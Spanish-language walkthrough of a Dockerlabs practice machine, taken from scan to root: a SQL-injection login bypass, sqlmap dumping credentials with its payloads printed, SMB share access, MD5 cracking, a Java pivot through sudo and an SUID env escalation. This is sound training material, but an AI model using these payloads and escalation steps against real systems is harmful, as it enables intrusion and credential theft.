



**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `Web` `SQLi` `SQLMap` `SMB` `Hash Cracking` `Java` `Sudoers` `SUID`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip database.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh database.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p22,80,139,445 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-19 15:54 +0100
Nmap scan report for 172.17.0.2
Host is up (0.000027s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp  open  http        Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Iniciar Sesi\xC3\xB3n
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2026-02-19T14:54:41
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.08 seconds
```

Observamos que están abiertos los puertos `22` (SSH), `80` (HTTP) y los puertos `139` y `445` (Samba).

Accedemos al servicio web por el puerto `80` y nos encontramos con un `panel de login`.



## SQL INJECTION

Intentamos evadir la autenticación probando una `inyección SQL` básica.

```
User: ' OR 1=1;-- -
Password: ' OR 1=1;-- -
```

```
Bienvenido Dylan! Has accedido correctamente.
```

Logramos acceder con éxito, lo que nos confirma la vulnerabilidad y nos revela la existencia del usuario `dylan`.

Vamos a automatizar la extracción de información de la base de datos. Para ello, primero utilizamos `BurpSuite` para interceptar la petición del login.



Guardamos la petición interceptada en un archivo llamado `request.txt`. 

A continuación, utilizamos la herramienta `sqlmap` indicándole el archivo para listar las bases de datos disponibles.

```Bash
sqlmap -r request.txt --batch --dbs
```

Info:
```
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.9.12#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[*] starting @ 16:02:01 /2026-02-19/

---------------------------------------<MORE_OUTPUT>-------------------------------------------

[16:03:45] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
POST parameter 'name' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 171 HTTP(s) requests:
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: name=-6612' OR 1576=1576#&password=test&submit=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: name=test' OR (SELECT 5151 FROM(SELECT COUNT(*),CONCAT(0x71786a6b71,(SELECT (ELT(5151=5151,1))),0x71787a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- scgG&password=test&submit=

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: name=test';SELECT SLEEP(5)#&password=test&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=test' AND (SELECT 9340 FROM (SELECT(SLEEP(5)))hAua)-- szfk&password=test&submit=
---
[16:03:45] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[16:03:45] [INFO] fetching database names
[16:03:45] [INFO] retrieved: 'information_schema'
[16:03:45] [INFO] retrieved: 'mysql'
[16:03:45] [INFO] retrieved: 'performance_schema'
[16:03:45] [INFO] retrieved: 'sys'
[16:03:45] [INFO] retrieved: 'register'
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] register
[*] sys

[16:03:45] [INFO] fetched data logged to text files under '/home/trihack/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 16:03:45 /2026-02-19/
```

Vemos varias bases de datos, pero la que más nos interesa es `register`. Procedemos a enumerar sus tablas.

```Bash
sqlmap -r request.txt --batch -D register --tables
```

Info:
```
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.12#stable}
|_ -| . [,]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[*] starting @ 16:04:27 /2026-02-19/

[16:04:27] [INFO] parsing HTTP request from 'request.txt'
[16:04:27] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[16:04:27] [INFO] resuming back-end DBMS 'mysql' 
[16:04:27] [INFO] testing connection to the target URL
got a 302 redirect to 'http://172.17.0.2/index.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: name=-6612' OR 1576=1576#&password=test&submit=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: name=test' OR (SELECT 5151 FROM(SELECT COUNT(*),CONCAT(0x71786a6b71,(SELECT (ELT(5151=5151,1))),0x71787a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- scgG&password=test&submit=

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: name=test';SELECT SLEEP(5)#&password=test&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=test' AND (SELECT 9340 FROM (SELECT(SLEEP(5)))hAua)-- szfk&password=test&submit=
---
[16:04:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[16:04:27] [INFO] fetching tables for database: 'register'
[16:04:27] [INFO] retrieved: 'users'
Database: register
[1 table]
+-------+
| users |
+-------+

[*] ending @ 16:04:27 /2026-02-19/
```

Detectamos una única tabla llamada `users`. Vamos a volcar todo su contenido.

```Bash
sqlmap -r request.txt --batch -D register -T users --dump
```

Info:
```
           __H__
 ___ ___[(]_____ ___ ___  {1.9.12#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[*] starting @ 16:04:34 /2026-02-19/

[16:04:34] [INFO] parsing HTTP request from 'request.txt'
[16:04:34] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[16:04:34] [INFO] resuming back-end DBMS 'mysql' 
[16:04:34] [INFO] testing connection to the target URL
got a 302 redirect to 'http://172.17.0.2/index.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: name (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: name=-6612' OR 1576=1576#&password=test&submit=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: name=test' OR (SELECT 5151 FROM(SELECT COUNT(*),CONCAT(0x71786a6b71,(SELECT (ELT(5151=5151,1))),0x71787a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- scgG&password=test&submit=

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: name=test';SELECT SLEEP(5)#&password=test&submit=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=test' AND (SELECT 9340 FROM (SELECT(SLEEP(5)))hAua)-- szfk&password=test&submit=
---
[16:04:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[16:04:34] [INFO] fetching columns for table 'users' in database 'register'
[16:04:34] [INFO] retrieved: 'username'
[16:04:34] [INFO] retrieved: 'varchar(30)'
[16:04:34] [INFO] retrieved: 'passwd'
[16:04:34] [INFO] retrieved: 'varchar(30)'
[16:04:34] [INFO] fetching entries for table 'users' in database 'register'
[16:04:35] [INFO] retrieved: 'KJSDFG789FGSDF78'
[16:04:35] [INFO] retrieved: 'dylan'
Database: register
Table: users
[1 entry]
+------------------+----------+
| passwd           | username |
+------------------+----------+
| KJSDFG789FGSDF78 | dylan    |
+------------------+----------+

[*] ending @ 16:04:35 /2026-02-19/
``` 

Encontramos credenciales para el usuario `dylan` : `KJSDFG789FGSDF78`.

Intentamos autenticarnos por `SSH` con estas credenciales, pero no da resultado.

## ENUMERACIÓN SMB

Como tenemos abierto el puerto `445`, vamos a intentar usar las credenciales obtenidas para enumerar los recursos compartidos.

Para ello, utilizamos la herramienta `netexec`.

```Bash
netexec smb 172.17.0.2 -u dylan -p 'KJSDFG789FGSDF78' --shares
```

Info:
```
SMB         172.17.0.2      445    E5C891254AC1     [*] Unix - Samba (name:E5C891254AC1) (domain:E5C891254AC1) (signing:False) (SMBv1:False)
SMB         172.17.0.2      445    E5C891254AC1     [+] E5C891254AC1\dylan:KJSDFG789FGSDF78 
SMB         172.17.0.2      445    E5C891254AC1     [*] Enumerated shares
SMB         172.17.0.2      445    E5C891254AC1     Share           Permissions     Remark
SMB         172.17.0.2      445    E5C891254AC1     -----           -----------     ------
SMB         172.17.0.2      445    E5C891254AC1     print$          READ            Printer Drivers
SMB         172.17.0.2      445    E5C891254AC1     shared          READ,WRITE      
SMB         172.17.0.2      445    E5C891254AC1     IPC$                            IPC Service (e5c891254ac1 server (Samba, Ubuntu))
```

Vemos que las credenciales pertenecen a `Samba` y hemos conseguido enumerar las `shares`. Entre ellas, hay una con el nombre `shared`, sobre la cual tenemos permisos `READ,WRITE`.

Accedemos a este recurso utilizando `smbclient`.

```Bash
smbclient //172.17.0.2/shared -U dylan -p
```

Info:
```
smb: \> ls
  .                                   D        0  Thu Feb 19 16:09:00 2026
  ..                                  D        0  Mon May 27 09:25:46 2024
  augustus.txt                        N       33  Mon May 27 09:58:52 2024

		98497780 blocks of size 1024. 52145120 blocks available
smb: \> get augustus.txt 
getting file \augustus.txt of size 33 as augustus.txt (4.6 KiloBytes/sec) (average 4.6 KiloBytes/sec)
```

Descargamos el archivo `augustus.txt` a nuestra máquina atacante y leemos su contenido.

```Bash
cat augustus.txt
```

```
061fba5bdfc076bb7362616668de87c8
```

Parece una contraseña hasheada en `MD5`, y por el nombre del archivo deducimos que pertenece al usuario `augustus`.

Usamos la web de `CrackStation` para intentar crackear la contraseña.



Logramos crackear el `hash` y descubrimos que la contraseña es `lovely`.

Intentamos autenticarnos por `SSH` con estas nuevas credenciales.

```Bash
ssh augustus@172.17.0.2
```

## MOVIMIENTO LATERAL

Una vez dentro como `augustus`, comprobamos nuestros permisos de ejecución de `sudo`.

```Bash
sudo -l
```

Info:
```
Matching Defaults entries for augustus on e5c891254ac1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User augustus may run the following commands on e5c891254ac1:
    (dylan) /usr/bin/java
```

Observamos que podemos ejecutar el binario `java` como el usuario `dylan`.

Nos dirigimos al directorio `/tmp` y creamos un pequeño exploit en `Java` que nos devuelva una `shell` interactiva.

```Bash
cd /tmp
nano Exploit.java
```

Insertamos el siguiente código:
```Java
public class Exploit {
    public static void main(String[] args) throws Exception {
        new ProcessBuilder("/bin/bash").inheritIO().start().waitFor();
    }
}
```

Compilamos nuestro archivo `.java`.

```Bash
javac Exploit.java
```

A continuación, lo ejecutamos aprovechando nuestro permiso de `sudo` para correrlo como el usuario `dylan`.

```Bash
sudo -u dylan /usr/bin/java Exploit
```

De este modo pivotamos exitosamente. 

## ESCALADA DE PRIVILEGIOS

Una vez como `dylan`, procedemos a comprobar los binarios con permisos `SUID` en el sistema para buscar nuestra escalada final a `root`.

```Bash
find / -perm -4000 -type f 2>/dev/null
```

Info:
```
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/env
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Identificamos el binario `/usr/bin/env` con el bit `SUID` activado. Nos aprovechamos de esto para spawnear una shell conservando los privilegios de `root`.

```Bash
env /bin/bash -p
```

```
bash-5.1# whoami
root
bash-5.1#
```

Ya somos root!